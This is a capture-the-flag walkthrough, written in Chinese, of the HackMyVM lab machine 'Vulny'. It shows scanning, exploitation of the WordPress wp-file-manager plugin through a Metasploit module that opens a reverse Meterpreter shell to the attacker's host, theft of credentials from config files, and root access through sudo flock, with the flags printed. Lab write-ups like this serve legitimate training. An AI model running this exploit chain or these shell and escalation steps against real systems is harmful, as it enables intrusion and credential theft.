


# Vulny

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2020-10-15

✔️ MD5 // 3ced42ca083a191b6b619648344521ae

☠ Root // 161

💀 User // 160

📝Notes //
Hack and Fun. Tested on Virtualbox.

:::

## 靶机启动



靶机 IP：

```plaintext
192.168.56.109
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.109
Host is up (0.00040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
......
MAC Address: 08:00:27:64:22:A2 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
```

## 探测 web 服务

```bash
┌─[✗]─[randark@randark-Parrot]─[~/tmp/HackMyVM-Vulny]
└──╼ $dirsearch -u http://192.168.56.109/secret/

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10903

Output File: /usr/lib/python3/dist-packages/dirsearch/reports/192.168.56.109_23-12-23_21-37-10.txt

Error Log: /usr/lib/python3/dist-packages/dirsearch/logs/errors-23-12-23_21-37-10.log

Target: http://192.168.56.109/

[21:37:10] Starting:
[21:37:10] 403 -  279B  - /.ht_wsr.txt
[21:37:10] 403 -  279B  - /.htaccess.bak1
[21:37:10] 403 -  279B  - /.htaccess.orig
[21:37:10] 403 -  279B  - /.htaccess.save
[21:37:10] 403 -  279B  - /.htaccessOLD2
[21:37:10] 403 -  279B  - /.htaccess.sample
[21:37:10] 403 -  279B  - /.htaccessBAK
[21:37:10] 403 -  279B  - /.htaccess_sc
[21:37:10] 403 -  279B  - /.htaccess_extra
[21:37:10] 403 -  279B  - /.htaccessOLD
[21:37:10] 403 -  279B  - /.htaccess_orig
[21:37:10] 403 -  279B  - /.html
[21:37:10] 403 -  279B  - /.htm
[21:37:10] 403 -  279B  - /.htpasswd_test
[21:37:10] 403 -  279B  - /.htpasswds
[21:37:10] 403 -  279B  - /.httr-oauth
[21:37:11] 403 -  279B  - /.php
[21:37:18] 200 -   11KB - /index.html
[21:37:18] 301 -  321B  - /javascript  ->  http://192.168.56.109/javascript/
[21:37:21] 301 -  317B  - /secret  ->  http://192.168.56.109/secret/
[21:37:21] 403 -  279B  - /server-status
[21:37:21] 403 -  279B  - /server-status/
```

可以发现一个特殊目录：`/secret`

进一步扫描

```bash
┌─[✗]─[randark@randark-Parrot]─[~/tmp/HackMyVM-Vulny]
└──╼ $dirsearch -u http://192.168.56.109/secret/

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10903

Output File: /usr/lib/python3/dist-packages/dirsearch/reports/192.168.56.109/-secret-_23-12-23_21-38-20.txt

Error Log: /usr/lib/python3/dist-packages/dirsearch/logs/errors-23-12-23_21-38-20.log

Target: http://192.168.56.109/secret/

[21:38:20] Starting:
[21:38:21] 403 -  279B  - /secret/.ht_wsr.txt
[21:38:21] 403 -  279B  - /secret/.htaccess.bak1
[21:38:21] 403 -  279B  - /secret/.htaccess.sample
[21:38:21] 403 -  279B  - /secret/.htaccess_extra
[21:38:21] 403 -  279B  - /secret/.htaccess_orig
[21:38:21] 403 -  279B  - /secret/.htaccessBAK
[21:38:21] 403 -  279B  - /secret/.htaccess.orig
[21:38:21] 403 -  279B  - /secret/.htaccess.save
[21:38:21] 403 -  279B  - /secret/.htaccess_sc
[21:38:21] 403 -  279B  - /secret/.htaccessOLD
[21:38:21] 403 -  279B  - /secret/.htaccessOLD2
[21:38:21] 403 -  279B  - /secret/.html
[21:38:21] 403 -  279B  - /secret/.htm
[21:38:21] 403 -  279B  - /secret/.htpasswds
[21:38:21] 403 -  279B  - /secret/.httr-oauth
[21:38:21] 403 -  279B  - /secret/.htpasswd_test
[21:38:21] 403 -  279B  - /secret/.php
[21:38:31] 200 -    7KB - /secret/readme.html
[21:38:33] 301 -  326B  - /secret/wp-admin  ->  http://192.168.56.109/secret/wp-admin/
[21:38:33] 301 -  328B  - /secret/wp-content  ->  http://192.168.56.109/secret/wp-content/
[21:38:33] 200 -    2KB - /secret/wp-content/
[21:38:33] 500 -  612B  - /secret/wp-content/plugins/akismet/akismet.php
[21:38:33] 500 -  612B  - /secret/wp-content/plugins/akismet/admin.php
[21:38:33] 200 - 1005B  - /secret/wp-content/upgrade/
[21:38:33] 200 -    1KB - /secret/wp-content/uploads/
[21:38:33] 403 -  279B  - /secret/wp-includes/
[21:38:33] 301 -  329B  - /secret/wp-includes  ->  http://192.168.56.109/secret/wp-includes/
[21:38:33] 500 -    0B  - /secret/wp-includes/rss-functions.php
[21:38:33] 500 -    3KB - /secret/wp-admin/setup-config.php
```

可以判断 `/secret` 目录下为 `wordpress` 服务，并且尝试访问的时候发生无法解析的问题


摸索过程中，发现 `/secret/wp-content` 可以访问


摸索过程中，发现存在 `wp-file-manager` 插件



并且在上传目录 `http://192.168.56.109/secret/wp-content/uploads/2020/10/` 中，发现 `wp-file-manager` 的部署包，进而可以确定版本


通过检索漏洞利用库，可以确定这个版本的 `wp-file-manager` 插件存在 RCE 漏洞

## `wp-file-manager` 插件漏洞利用

直接使用 msfconsole 一把梭

```bash
[msf](Jobs:0 Agents:0) exploit(multi/http/wp_file_manager_rce) >> set ForceExploit true
ForceExploit => true
[msf](Jobs:0 Agents:0) exploit(multi/http/wp_file_manager_rce) >> show options

Module options (exploit/multi/http/wp_file_manager_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   COMMAND    upload           yes       elFinder commands used to exploit the vulnerability (Accepted: upload, mkfile+put)
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.56.109   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-met
                                         asploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /secret/         yes       Base path to WordPress installation
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.102   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress File Manager 6.0-6.8


View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(multi/http/wp_file_manager_rce) >> exploit

[*] Started reverse TCP handler on 192.168.56.102:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Cannot reliably check exploitability. ForceExploit is enabled, proceeding with exploitation.
[*] 192.168.56.109:80 - Payload is at /secret/wp-content/plugins/wp-file-manager/lib/files/XGMhyw.php
[*] Sending stage (39927 bytes) to 192.168.56.109
[+] Deleted XGMhyw.php
[*] Meterpreter session 1 opened (192.168.56.102:4444 -> 192.168.56.109:57478) at 2023-12-23 21:56:17 +0800
```

## 敏感数据泄露

```php title="/etc/wordpress/config-192.168.1.122.php"
<?php
define('DB_NAME', 'wordpress');
define('DB_USER', 'wordpress');
define('DB_PASSWORD', 'myfuckingpassword');
define('DB_HOST', 'localhost');
define('DB_COLLATE', 'utf8_general_ci');
define('WP_CONTENT_DIR', '/usr/share/wordpress/wp-content');
?>
```

```php title="/usr/share/wordpress/wp-config.php"
<?php
/***
 * WordPress's Debianised default master config file
 * Please do NOT edit and learn how the configuration works in
 * /usr/share/doc/wordpress/README.Debian
 ***/

/* Look up a host-specific config file in
 * /etc/wordpress/config-<host>.php or /etc/wordpress/config-<domain>.php
 */
$debian_server = preg_replace('/:.*/', "", $_SERVER['HTTP_HOST']);
$debian_server = preg_replace("/[^a-zA-Z0-9.\-]/", "", $debian_server);
$debian_file = '/etc/wordpress/config-'.strtolower($debian_server).'.php';
/* Main site in case of multisite with subdomains */
$debian_main_server = preg_replace("/^[^.]*\./", "", $debian_server);
$debian_main_file = '/etc/wordpress/config-'.strtolower($debian_main_server).'.php';

if (file_exists($debian_file)) {
    require_once($debian_file);
    define('DEBIAN_FILE', $debian_file);
} elseif (file_exists($debian_main_file)) {
    require_once($debian_main_file);
    define('DEBIAN_FILE', $debian_main_file);
} elseif (file_exists("/etc/wordpress/config-default.php")) {
    require_once("/etc/wordpress/config-default.php");
    define('DEBIAN_FILE', "/etc/wordpress/config-default.php");
} else {
    header("HTTP/1.0 404 Not Found");
    echo "Neither <b>$debian_file</b> nor <b>$debian_main_file</b> could be found. <br/> Ensure one of them exists, is readable by the webserver and contains the right password/username.";
    exit(1);
}

/* idrinksomewater */

/* Default value for some constants if they have not yet been set
   by the host-specific config files */
if (!defined('ABSPATH'))
    define('ABSPATH', '/usr/share/wordpress/');
if (!defined('WP_CORE_UPDATE'))
    define('WP_CORE_UPDATE', false);
if (!defined('WP_ALLOW_MULTISITE'))
    define('WP_ALLOW_MULTISITE', true);
if (!defined('DB_NAME'))
    define('DB_NAME', 'wordpress');
if (!defined('DB_USER'))
    define('DB_USER', 'wordpress');
if (!defined('DB_HOST'))
    define('DB_HOST', 'localhost');
if (!defined('WP_CONTENT_DIR') && !defined('DONT_SET_WP_CONTENT_DIR'))
    define('WP_CONTENT_DIR', '/var/lib/wordpress/wp-content');

/* Default value for the table_prefix variable so that it doesn't need to
   be put in every host-specific config file */
if (!isset($table_prefix)) {
    $table_prefix = 'wp_';
}

if (isset($_SERVER['HTTP_X_FORWARDED_PROTO']) && $_SERVER['HTTP_X_FORWARDED_PROTO'] == 'https')
    $_SERVER['HTTPS'] = 'on';

require_once(ABSPATH . 'wp-settings.php');
?>
```

在 `/etc/wordpress/config-192.168.1.122.php` 文件中，发现了一个奇怪的注释

```plaintext
idrinksomewater
```

结合 `/etc/passwd` 的文件内容，怀疑是用户凭据

## 凭据利用

凭据为：

```plaintext
adrian:idrinksomewater
```

```bash
(remote) www-data@vulny:/usr/share/wordpress/wp-content/plugins/wp-file-manager/lib/files$ su adrian
Password:
adrian@vulny:/usr/share/wordpress/wp-content/plugins/wp-file-manager/lib/files$ whoami
adrian
```

成功切换到 `adrian` 用户

## user pwned

```bash
adrian@vulny:~$ cat user.txt
HMViuploadfiles
```

## 提权探测

```plaintext title="sudo -l"
Matching Defaults entries for adrian on vulny:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User adrian may run the following commands on vulny:
    (ALL : ALL) NOPASSWD: /usr/bin/flock
```

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/bin/chsh
/usr/bin/mount
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/at
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/newgrp
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/snap/core18/1880/bin/mount
/snap/core18/1880/bin/ping
/snap/core18/1880/bin/su
/snap/core18/1880/bin/umount
/snap/core18/1880/usr/bin/chfn
/snap/core18/1880/usr/bin/chsh
/snap/core18/1880/usr/bin/gpasswd
/snap/core18/1880/usr/bin/newgrp
/snap/core18/1880/usr/bin/passwd
/snap/core18/1880/usr/bin/sudo
/snap/core18/1880/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1880/usr/lib/openssh/ssh-keysign
/snap/snapd/8542/usr/lib/snapd/snap-confine
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

发现 `/usr/bin/flock` 可以实现无密码执行 sudo

## 尝试提权

```bash
adrian@vulny:~$ sudo flock -u / /bin/bash
root@vulny:/home/adrian# whoami
root
```

## root pwned

```bash
root@vulny:~# cat root.txt
HMVididit
```
